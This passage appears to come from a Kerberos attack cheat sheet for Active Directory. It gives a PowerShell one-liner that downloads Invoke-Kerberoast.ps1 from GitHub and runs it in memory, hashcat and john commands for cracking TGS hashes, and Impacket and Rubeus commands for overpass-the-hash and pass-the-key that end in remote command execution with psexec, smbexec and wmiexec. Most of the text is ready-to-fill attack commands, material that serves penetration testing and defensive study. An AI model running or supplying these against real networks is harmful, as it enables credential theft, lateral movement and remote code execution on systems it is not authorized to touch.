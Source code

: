 With **Powershell**:
```
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

Cracking with dictionary of passwords:
```shell
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```


## Overpass The Hash/Pass The Key (PTK)

By using [Impacket](https://github.com/SecureAuthCorp/impacket) examples:
```shell
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```


With [Rubeus](https://github.com/GhostPack/Rubeus) and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```shell
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```



## Pass The Ticket (PTT)

### Harvest tickets from Linux
